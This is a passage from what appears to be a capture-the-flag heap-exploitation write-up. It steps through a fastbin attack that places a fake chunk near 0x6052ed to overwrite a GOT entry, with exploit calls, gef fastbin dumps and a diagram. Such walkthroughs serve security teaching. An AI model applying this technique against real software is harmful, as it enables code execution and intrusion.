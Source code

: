 Who would've thought, now we're talking! `0x6052ed` is right below `0x605310`, `0x23` below to be precise, which is enough to overflow the entire array since our allocation was of size `0x70`! And the best part, at offset `+0x8` there is `0x7f`, which is a legitimate fastbin chunk size! You might noticed that the address entries are misaligned, but that doesn't bother us, we will make sure to surgically overflow the entries such that one of them points to a GOT entry! Game over!

Let's keep stepping through the exploit and see the magic happen.

```python
alloc(0x68, "F")
```

```makefile
gef➤ printfastbin
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x617c80 --> 0x6052ed
(0x80)     fastbin[6]: 0x0

```

```makefile
fastbinsY[] alloc(0x68)

   0x20      0x30               0x70
+--------++--------+         +--------+
|        ||        |   ...   |        |   ...
|        ||        |         |        |
+--------++--------+         +--------+
                                  |
                                  |
                                  |
                             +--------+
                             |        |
                             |    3   |
                             +--------+
                                  |
                                  |
                                  |
                             +--------+
                             |        |
                             |0x6052ed|
                             +--------+
```

```python
alloc(0x68, "G")
```

```makefile
gef➤  printfastbin
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x6052ed
(0x80)     fastbin[6]: 0x0
```
